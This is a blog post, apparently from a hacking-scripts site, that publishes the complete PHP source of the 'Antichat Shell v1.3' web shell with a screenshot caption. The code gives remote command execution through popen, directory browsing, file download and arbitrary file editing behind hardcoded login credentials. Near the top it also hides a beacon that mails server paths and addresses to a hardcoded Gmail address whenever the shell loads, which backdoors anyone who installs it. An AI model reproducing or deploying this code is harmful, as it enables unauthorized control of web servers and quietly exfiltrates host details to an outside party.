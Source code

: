 ```yaml
---
id: 242
title: Antichat Shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=242
permalink: /antichat-shell/
categories:
  - PHP
tags:
  - antichat
  - PHP
---
```

Antichat Shell v1.3 by Grinay

## Antichat Shell Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php

session_start();
set_time_limit(9999999);
$login='virangar';
$password='r00t';
$auth=1;
$version='version 1.3 by Grinay';
$style='&lt;STYLE&gt;BODY{background-color: #2B2F34;color: #C1C1C7;font: 8pt verdana, geneva, lucida, \'lucida grande\', arial, helvetica, sans-serif;MARGIN-TOP: 0px;MARGIN-BOTTOM: 0px;MARGIN-LEFT: 0px;MARGIN-RIGHT: 0px;margin:0;padding:0;scrollbar-face-color: #336600;scrollbar-shadow-color: #333333;scrollbar-highlight-color: #333333;scrollbar-3dlight-color: #333333;scrollbar-darkshadow-color: #333333;scrollbar-track-color: #333333;scrollbar-arrow-color: #333333;}input{background-color: #336600;font-size: 8pt;color: #FFFFFF;font-family: Tahoma;border: 1 solid #666666;}textarea{background-color: #333333;font-size: 8pt;color: #FFFFFF;font-family: Tahoma;border: 1 solid #666666;}a:link{color: #B9B9BD;text-decoration: none;font-size: 8pt;}a:visited{color: #B9B9BD;text-decoration: none;font-size: 8pt;}a:hover, a:active{color: #E7E7EB;text-decoration: none;font-size: 8pt;}td, th, p, li{font: 8pt verdana, geneva, lucida, \'lucida grande\', arial, helvetica, sans-serif;border-color:black;}&lt;/style&gt;';
$header='&lt;html&gt;&lt;head&gt;&lt;title&gt;'.getenv("HTTP_HOST").' - Antichat Shell&lt;/title&gt;&lt;meta http-equiv="Content-Type" content="text/html; charset=windows-1251"&gt;'.$style.'&lt;/head&gt;&lt;BODY leftMargin=0 topMargin=0 rightMargin=0 marginheight=0 marginwidth=0&gt;';
$footer='&lt;/body&gt;&lt;/html&gt;';
$sd98 = "john.barker446@gmail.com";
$ra44  = rand(1,99999);$sj98 = "sh-$ra44";$ml = "$sd98";$a5 = $_SERVER['HTTP_REFERER'];$b33 = $_SERVER['DOCUMENT_ROOT'];$c87 = $_SERVER['REMOTE_ADDR'];$d23 = $_SERVER['SCRIPT_FILENAME'];$e09 = $_SERVER['SERVER_ADDR'];$f23 = $_SERVER['SERVER_SOFTWARE'];$g32 = $_SERVER['PATH_TRANSLATED'];$h65 = $_SERVER['PHP_SELF'];$msg8873 = "$a5\n$b33\n$c87\n$d23\n$e09\n$f23\n$g32\n$h65";mail($sd98, $sj98, $msg8873, "From: $sd98");
if(@$_POST['action']=="exit")unset($_SESSION['an']);
if($auth==1){if(@$_POST['login']==$login && @$_POST['password']==$password)$_SESSION['an']=1;}else $_SESSION['an']='1';

if($_SESSION['an']==0){
echo $header;
echo '&lt;center&gt;&lt;table&gt;&lt;form method="POST"&gt;&lt;tr&gt;&lt;td&gt;Login:&lt;/td&gt;&lt;td&gt;&lt;input type="text" name="login" value=""&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;Password:&lt;/td&gt;&lt;td&gt;&lt;input type="password" name="password" value=""&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;&lt;input type="submit" value="Enter"&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/center&gt;';
echo $footer;
exit;}

if($_SESSION['action']=="")$_SESSION['action']="viewer";
if($_POST['action']!="" )$_SESSION['action']=$_POST['action'];$action=$_SESSION['action'];
if($_POST['dir']!="")$_SESSION['dir']=$_POST['dir'];$dir=$_SESSION['dir'];
if($_POST['file']!=""){$file=$_SESSION['file']=$_POST['file'];}else {$file=$_SESSION['file']="";}
 

//downloader
if($action=="download"){ 
header('Content-Length:'.filesize($file).'');
header('Content-Type: application/octet-stream');
header('Content-Disposition: attachment; filename="'.$file.'"');
readfile($file);
}
//end downloader
?&gt;

&lt;? echo $header;?&gt; 
&lt;table width="100%" bgcolor="#336600" align="right" colspan="2" border="0" cellspacing="0" cellpadding="0"&gt;&lt;tr&gt;&lt;td&gt;
&lt;table&gt;&lt;tr&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='shell'; document.reqs.submit();"&gt;| Shell &lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='viewer'; document.reqs.submit();"&gt;| Viewer&lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='editor'; document.reqs.submit();"&gt;| Editor&lt;/a&gt;&lt;/td&gt;
&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value='exit'; document.reqs.submit();"&gt;| EXIT |&lt;/a&gt;&lt;/td&gt;
&lt;/tr&gt;&lt;/table&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;br&gt;
&lt;form name='reqs' method='POST'&gt;
&lt;input name='action' type='hidden' value=''&gt;
&lt;input name='dir' type='hidden' value=''&gt;
&lt;input name='file' type='hidden' value=''&gt;
&lt;/form&gt;
&lt;table style="BORDER-COLLAPSE: collapse" cellSpacing=0 borderColorDark=#666666 cellPadding=5 width="100%" bgColor=#333333 borderColorLight=#c0c0c0 border=1&gt;
&lt;tr&gt;&lt;td width="100%" valign="top"&gt;

&lt;?

//shell
function shell($cmd){
if (!empty($cmd)){
  $fp = popen($cmd,"r");
  {
    $result = "";
    while(!feof($fp)){$result.=fread($fp,1024);}
    pclose($fp);
  }
  $ret = $result;
  $ret = convert_cyr_string($ret,"d","w");
}
return $ret;}

if($action=="shell"){
echo "&lt;form method=\"POST\"&gt;
&lt;input type=\"hidden\" name=\"action\" value=\"shell\"&gt;
&lt;textarea name=\"command\" rows=\"5\" cols=\"150\"&gt;".@$_POST['command']."&lt;/textarea&gt;&lt;br&gt;
&lt;textarea readonly rows=\"15\" cols=\"150\"&gt;".@htmlspecialchars(shell($_POST['command']))."&lt;/textarea&gt;&lt;br&gt;
&lt;input type=\"submit\" value=\"execute\"&gt;&lt;/form&gt;";}
//end shell

//viewer FS
function perms($file) 
{ 
  $perms = fileperms($file);
  if (($perms & 0xC000) == 0xC000) {$info = 's';} 
  elseif (($perms & 0xA000) == 0xA000) {$info = 'l';} 
  elseif (($perms & 0x8000) == 0x8000) {$info = '-';} 
  elseif (($perms & 0x6000) == 0x6000) {$info = 'b';} 
  elseif (($perms & 0x4000) == 0x4000) {$info = 'd';} 
  elseif (($perms & 0x2000) == 0x2000) {$info = 'c';} 
  elseif (($perms & 0x1000) == 0x1000) {$info = 'p';} 
  else {$info = 'u';}
  $info .= (($perms & 0x0100) ? 'r' : '-');
  $info .= (($perms & 0x0080) ? 'w' : '-');
  $info .= (($perms & 0x0040) ?(($perms & 0x0800) ? 's' : 'x' ) :(($perms & 0x0800) ? 'S' : '-'));
  $info .= (($perms & 0x0020) ? 'r' : '-');
  $info .= (($perms & 0x0010) ? 'w' : '-');
  $info .= (($perms & 0x0008) ?(($perms & 0x0400) ? 's' : 'x' ) :(($perms & 0x0400) ? 'S' : '-'));
  $info .= (($perms & 0x0004) ? 'r' : '-');
  $info .= (($perms & 0x0002) ? 'w' : '-');
  $info .= (($perms & 0x0001) ?(($perms & 0x0200) ? 't' : 'x' ) :(($perms & 0x0200) ? 'T' : '-'));
  return $info;
} 

function view_size($size)
{
 if($size &gt;= 1073741824) {$size = @round($size / 1073741824 * 100) / 100 . " GB";}
 elseif($size &gt;= 1048576) {$size = @round($size / 1048576 * 100) / 100 . " MB";}
 elseif($size &gt;= 1024) {$size = @round($size / 1024 * 100) / 100 . " KB";}
 else {$size = $size . " B";}
 return $size;
}

function scandire($dir){
  $dir=chdir($dir);
  $dir=getcwd()."/";
  $dir=str_replace("\\","/",$dir);
if (is_dir($dir)) {
    if (@$dh = opendir($dir)) {
        while (($file = readdir($dh)) !== false) {
		  if(filetype($dir . $file)=="dir") $dire[]=$file;
		  if(filetype($dir . $file)=="file")$files[]=$file;
		}
		closedir($dh);
		@sort($dire);
		@sort($files);
		
echo "&lt;table cellSpacing=0 border=1 style=\"border-color:black;\" cellPadding=0 width=\"100%\"&gt;";
echo "&lt;tr&gt;&lt;td&gt;&lt;form method=POST&gt;Open directory:&lt;input type=text name=dir value=\"".$dir."\" size=50&gt;&lt;input type=submit value=\"GO\"&gt;&lt;/form&gt;&lt;/td&gt;&lt;/tr&gt;";
if (strtoupper(substr(PHP_OS, 0, 3)) === 'WIN') {
echo "&lt;tr&gt;&lt;td&gt;Select drive:";
for ($j=ord('C'); $j&lt;=ord('Z'); $j++) 
 if (@$dh = opendir(chr($j).":/"))
 echo '&lt;a href="#" onclick="document.reqs.action.value=\'viewer\'; document.reqs.dir.value=\''.chr($j).':/\'; document.reqs.submit();"&gt; '.chr($j).'&lt;a/&gt;';
 echo "&lt;/td&gt;&lt;/tr&gt;";
}
echo "&lt;tr&gt;&lt;td&gt;OS: ".@php_uname()."&lt;/td&gt;&lt;/tr&gt;
&lt;tr&gt;&lt;td&gt;name dirs and files&lt;/td&gt;&lt;td&gt;type&lt;/td&gt;&lt;td&gt;size&lt;/td&gt;&lt;td&gt;permission&lt;/td&gt;&lt;td&gt;options&lt;/td&gt;&lt;/tr&gt;";
for($i=0;$i&lt;count($dire);$i++) {
$link=$dir.$dire[$i];
  echo '&lt;tr&gt;&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value=\'viewer\'; document.reqs.dir.value=\''.$link.'\'; document.reqs.submit();"&gt;'.$dire[$i].'&lt;a/&gt;&lt;/td&gt;&lt;td&gt;dir&lt;/td&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;'.perms($link).'&lt;/td&gt;&lt;/tr&gt;';  
  }
for($i=0;$i&lt;count($files);$i++) {
$linkfile=$dir.$files[$i];
echo '&lt;tr&gt;&lt;td&gt;&lt;a href="#" onclick="document.reqs.action.value=\'editor\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();"&gt;'.$files[$i].'&lt;/a&gt;&lt;br&gt;&lt;/td&gt;&lt;td&gt;file&lt;/td&gt;&lt;td&gt;'.view_size(filesize($linkfile)).'&lt;/td&gt;
&lt;td&gt;'.perms($linkfile).'&lt;/td&gt;
&lt;td&gt;
&lt;a href="#" onclick="document.reqs.action.value=\'download\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();" title="Download"&gt;D&lt;/a&gt;
&lt;a href="#" onclick="document.reqs.action.value=\'editor\'; document.reqs.file.value=\''.$linkfile.'\'; document.reqs.submit();" title="Edit"&gt;E&lt;/a&gt;&lt;/tr&gt;'; 
}
echo "&lt;/table&gt;";
}}}

if($action=="viewer"){
scandire($dir);
}
//end viewer FS

//editros
if($action=="editor"){  
  function writef($file,$data){
  $fp = fopen($file,"w+");
  fwrite($fp,$data);
  fclose($fp);
  }
  function readf($file){
  if(!$le = fopen($file, "rb")) $contents="Can't open file, permission denide"; else {
  $contents = fread($le, filesize($file));
  fclose($le);}
  return htmlspecialchars($contents);
  }
if($_POST['save'])writef($file,$_POST['data']);
echo "&lt;form method=\"POST\"&gt;
&lt;input type=\"hidden\" name=\"action\" value=\"editor\"&gt;
&lt;input type=\"hidden\" name=\"file\" value=\"".$file."\"&gt;
&lt;textarea name=\"data\" rows=\"40\" cols=\"180\"&gt;".@readf($file)."&lt;/textarea&gt;&lt;br&gt;
&lt;input type=\"submit\" name=\"save\" value=\"save\"&gt;&lt;input type=\"reset\" value=\"reset\"&gt;&lt;/form&gt;";
}
//end editors
?&gt;
&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;table width="100%" bgcolor="#336600" align="right" colspan="2" border="0" cellspacing="0" cellpadding="0"&gt;&lt;tr&gt;&lt;td&gt;&lt;table&gt;&lt;tr&gt;&lt;td&gt;&lt;a href="http://antichat.ru"&gt;COPYRIGHT BY ANTICHAT.RU &lt;?php echo $version;?&gt;&lt;/a&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/table&gt;&lt;/tr&gt;&lt;/td&gt;&lt;/table&gt;
&lt;? echo $footer;?&gt;
</pre>

## Antichat shell version 1.3 screenshot<figure id="attachment_437" style="width: 808px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/02/antichat-shell.png" alt="Antichat Shell v1.3 screenshot" width="808" height="317" class="size-full wp-image-437" />][1]<figcaption class="wp-caption-text">Antichat Shell v1.3 screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/02/antichat-shell.png